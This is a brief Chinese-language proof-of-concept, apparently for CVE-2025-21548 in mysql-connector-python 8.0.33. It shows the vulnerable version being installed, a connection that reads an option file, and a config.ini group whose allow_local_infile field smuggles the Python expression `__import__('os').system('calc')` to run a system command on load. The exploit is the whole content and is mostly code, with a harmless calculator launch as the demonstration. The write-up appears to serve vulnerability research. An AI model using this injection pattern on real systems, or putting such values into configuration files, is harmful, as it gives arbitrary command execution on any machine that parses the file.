 手动测试一下。

```
python3 -m pip install --upgrade mysql-connector-python==8.0.33
```

```
import mysql.connector

opt_file = 'config.ini'
connection = mysql.connector.connect(
    read_default_file=opt_file,
    option_groups=["incorrect_config"]
)
```



```
[incorrect_config]

user=root
password=mypass
database=cpydata
port=int(3306)
allow_local_infile=__import__('os').system('calc')
```

![图片](CVE-2025-21548python%20version%20mysql%20rce.assets/640.png)